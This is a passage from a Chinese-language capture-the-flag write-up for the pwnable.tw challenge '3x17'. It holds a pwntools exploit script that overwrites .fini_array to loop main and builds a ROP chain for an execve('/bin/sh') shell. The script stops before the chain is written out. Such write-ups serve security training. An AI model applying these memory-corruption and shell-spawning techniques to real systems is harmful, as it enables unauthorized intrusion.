 #### gadget写入顺序

注意先不要写`.fini_array[0] .fini_array[1]`的内容，这样会导致从main函数的反复调用中退出

脚本：

```python
from pwn import *
context.arch = "amd64"
context.os = "linux"
# context.log_level = "debug"
context.terminal = ["tmux", "splitw", "-h"]

def write(io, addr, data):
    io.recvuntil("addr:".encode())
    io.send(str(addr).encode())
    io.recvuntil("data:".encode())
    io.send(data)


def write_fini_array(io,idx,data):
    fini_array = 0x4b40f0
    addr = fini_array + 8 * idx
    io.recvuntil("addr:".encode())
    io.send(str(addr).encode())
    io.recvuntil("data:".encode())
    io.send(data)

def construct_rop_chain(_rop: ROP, binsh_addr):
    leave_ret_addr = 0x401c4b
    pop_rax_addr = 0x041e4af
    pop_2_reg_addr = 0x44a309
    #_rop.raw(leave_ret_addr)
    #_rop.raw(pop_2_reg_addr)
    _rop(rdi=binsh_addr,rax=0x3b, rsi=0, rdx = 0)
    _rop.raw(_rop.syscall.address)
    print(_rop.dump())
    return _rop.chain()

DEBUG = True
ip = "chall.pwnable.tw"
port = 10105



if __name__ == "__main__":
    if DEBUG:
        io = process("./3x17")
    else:
        io = remote(ip,port)
    _bin = ELF("./3x17")
    _rop = ROP(_bin)
    main_addr = 0x0401B6D
    # main_addr = 0x401B75
    # csu_ini = 0x402960
    csu_fini = 0x402961
    leave_ret = 0x401c4b
    fini_array = 0x4b40f0
    binsh_addr = fini_array - 0x10
    # rbp = fini_array
    chain = construct_rop_chain(_rop, binsh_addr)

    write_fini_array(io,0,p64(csu_fini)+p64(main_addr))

    # Layout of rop chain
```